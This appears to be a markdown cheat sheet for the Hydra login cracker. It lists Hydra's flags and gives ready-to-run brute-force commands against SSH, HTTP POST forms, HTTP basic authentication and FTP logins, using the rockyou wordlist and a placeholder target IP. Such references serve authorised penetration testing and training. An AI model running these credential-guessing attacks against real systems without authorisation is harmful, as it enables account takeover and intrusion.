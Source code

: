 ```yaml
---
title: HYDRA
summary: A very fast and flexible login cracker.
description: A very fast and flexible login cracker.
---
```


[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

## HYDRA Base


 > 
 > **<font color=red>hydra -l </font>username <font color=red>-P</font> wordlist.txt \[TARGET_IP\] service**

## HYDRA Flags


 > 
 > **<font color=red>-V</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-vV</font>**</br>
 > Very Verbose.

 > 
 > **<font color=red>-L</font> myUsersFile**</br>
 > Specify usernames file list.
 > 
 > **<font color=red>-l </font> myUser**</br>
 > Specify username.

 > 
 > **<font color=red>-P </font>myPassFile**</br>
 > Specify password file list.
 > 
 > **<font color=red>-p</font> myPass**</br>
 > Specify password.

 > 
 > **<font color=red>-s</font>**</br>
 > Specify port.
 > 
 > **<font color=red>-t</font> 4**</br>
 > Number of parallel connections per target.

## SSH


 > 
 > **<font color=red>hydra -L</font> myUsersFile <font color=red>-P</font> myPassFile \[TARGET_IP\]<font color=red> ssh</font>**</br>
 > Brute Force SSH.

## HTTP POST


 > 
 > **<font color=red>hydra -vV -L</font> myUsersFile.txt  <font color=red>-P</font> /usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>http-post-form ‘</font>/path/to/form.php<font color=red>:</font>username<font color=red>=^USER^&</font>password<font color=red>=^PASS^&</font>login=Login:<font color=red>F=</font>ChainNotOK<font color=red>’</font>**</br>
 > Brute Force HTTP POST form with valid username.

## HTTP Basic Access Auth


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P</font> /usr/share/wordlists/rockyou.txt \[TARGET_IP\]<font color=red> http-get</font> /path/**</br>
 > Brute Force HTTP Basic Access Authentication.

## FTP


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P </font>/usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>ftp</font>**</br>
 > Brute Force FTP Login.
